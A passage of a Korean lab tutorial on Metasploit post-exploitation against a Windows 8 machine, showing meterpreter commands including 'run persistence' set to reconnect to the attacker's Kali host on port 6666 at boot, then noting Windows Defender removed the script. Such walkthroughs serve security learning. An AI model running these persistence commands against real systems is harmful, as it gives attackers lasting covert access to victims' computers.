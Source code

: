 ```
meterpreter > sysinfo
```

이제 persistence 를 실행시키자 

앞에서 했던 것 처럼 -h 명령어를 통해 다양한 명령어를 확인할 수 있다.

-A handler 자동실행

-X  -p 6666 -r kali IP 시스템이 부팅되자마자 6666 포트 bind

```
meterpreter > run persistence -h
meterpreter > run persistence -A -X -i 10 -p 6666 -r [Kali IP]
```

![4_27](./image4/03.png)

결과를 확인해보자

persistence script 가 windows 8의 해당경로에 생성되었다고 나와있다.

windows 8 의 해당경로에서 실제로 script 가 생성되었는지 확인해보자

아마 발견할 수 없을 것이다. 

왜일까? 

windows 8 에서 windows defender를 열어보면 실행되고 있는 모습을 확인할 수 있다. windows defender가 스크립트 파일을 감지하고 삭제시켰기 때문이다.
